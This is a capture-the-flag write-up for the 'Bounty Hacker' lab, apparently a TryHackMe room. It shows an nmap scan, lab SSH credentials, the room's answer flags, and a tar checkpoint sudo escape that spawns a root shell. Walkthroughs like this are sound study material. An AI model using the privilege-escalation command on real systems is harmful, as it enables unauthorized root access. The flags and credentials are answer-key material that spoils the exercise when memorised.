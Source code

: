 # Bounty Hacker
# By 0xRar

## machine_ip: *.*.*.*

## nmap scan:
```
Not shown: 969 filtered ports, 28 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.32.95
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## ports : 
```
ftp=23 anonymous login enabled
ssh=22 user: lin , password: RedDr4gonSynd1cat3
```


##  Who wrote the task list?:
```
From the task.txt
Answer: lin
```

## What service can you bruteforce with the text file found?:
```
Answer: ssh
```

## user.txt:
```
Answer: THM{CR1M3_SyNd1C4T3}
```

## priv esc
```
https://gtfobins.github.io/gtfobins/tar/
sudo -l
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

```

## root.txt:
```
Answer: THM{80UN7Y_h4cK3r}

```


```
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
```
